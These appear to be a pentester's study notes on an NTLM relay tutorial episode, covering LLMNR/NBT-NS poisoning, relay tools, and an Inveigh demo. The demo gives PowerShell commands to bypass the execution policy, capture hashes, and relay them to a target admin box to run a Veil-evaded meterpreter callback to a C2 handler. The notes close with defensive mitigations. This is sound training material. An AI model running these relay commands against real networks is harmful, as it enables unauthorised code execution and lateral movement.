 Relaying NTLMv1/v2 – Tradecraft Security Weekly #14

Inveigh - https://github.com/Kevin-Robertson/Inveigh
Nmap SMB-Signing Discovery - https://nmap.org/nsedoc/scripts/smb-security-mode.html
byt3bl33der blog post - https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html
SANS blog post - https://pen-testing.sans.org/blog/2013/04/25/smb-relay-demystified-and-ntlmv2-pwnage-with-python
LLMNR & NBT-NS Blog Post - https://www.sternsecurity.com/blog/local-network-attacks-llmnr-and-nbt-ns-poisoning
Responder Multi-Relay - http://g-laurent.blogspot.com/2016/10/introducing-responder-multirelay-10.html
Impacket SMBRelayx - https://github.com/CoreSecurity/impacket/blob/master/examples/smbrelayx.py
Metasploit SMB_Relay Module - https://www.rapid7.com/db/modules/exploit/windows/smb/smb_relay
# Quick LLMNR & NBT-NS Overview
![64c953585e4536af0e398aba1fc8bbe4.png](../_resources/da927fc5be454fbd833dd35a6054d7fa.png)
- Instead of just obtaining hashes we can relay those hashes to other systems
- Attacker can execute code in the context of the victim user
- No need to crack hashes at this point to gain a foothold
- Can be done from a non-domain system
- SMB Signing must be disabled
- Locate hosts with Nmap or another scanner
# NTLM v1/v2 Relaying Tools
- Python:
	- Responder multi-relay
		- https://g-laurent.blogspot.com/2016/10/introducing-responder-multirelay-10.html
	- Impacket's smbrelayx
		- https://github.com/CoreSecurity/impacket/blob/master/examples/smbrelayx.py
- Metasploit:
	- exploit/windows/smb/smb_relay
		- https://www.rapid7.com/db/modules/exploit/windows/smb/smb_relay
- PowerShell:
	- Inveigh
		- https://github.com/Kevin-Robertson/Inveigh
# Inveigh Demo
Scenario:
access to a win box
trying to get onto another admin winbox

on Winbox we are on
```
C:\ powershell.exe -exec bypass
PS> Import-Module .\Inveigh.ps1
PS> Invoke-Inveigh -ConsoleOutput Y -NBNS Y
```
on target admin winbox trigger the responder for the demo
```
\\pintserver
```
and captures the hash on the Inveigh
```
PS> Stop-Inveigh
PS> cleanmgr.exe
PS> clear
```
RELAY ATTACK:
```
PS> Invoke-Inveigh -HTTP N -NBNS Y -ShowHelp N -StatusOutput N
PS> Invoke-InveighRelay -ConsoleOutput Y -Target ipoftarget -Command 'meterpreter payload created in veil evasion to get callback on our msf multihandler
```
# For the Blue Team
- Enable SMB Signing
- Disable LLMNR & NBT-NS on clients
- Use a script to make NBNS/LLMNR requests for non-existent host names. If one returns it's likely spoofed.























running multi/handler on C2
